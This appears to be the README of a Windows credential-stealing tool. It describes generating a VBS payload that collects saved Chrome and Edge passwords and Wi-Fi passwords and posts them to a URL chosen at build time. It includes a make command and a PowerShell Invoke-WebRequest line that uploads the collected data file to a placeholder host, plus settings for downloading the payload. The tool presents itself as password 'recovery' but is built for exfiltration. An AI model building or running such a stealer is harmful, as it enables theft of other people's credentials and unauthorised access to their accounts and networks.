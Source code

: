 # Objective

Allows you to recover passwords stored in Chrome and Edge browsers. It also allows you to recover saved wifi passwords.

# Build

The script to use must be generated with the make command, specifying the URL which will be used to recover the passwords:

    make URL=http://example.com

# Data recovery

The data will be sent to the URL specified during make with the following powershell command:

    Invoke-WebRequest -Uri http://example.com -Method POST -InFile /tmp/data

# Download payload settings

* __URL__ : Direct download URL to the ``out.vbs`` script..
* __STARTUP__ : Not set.

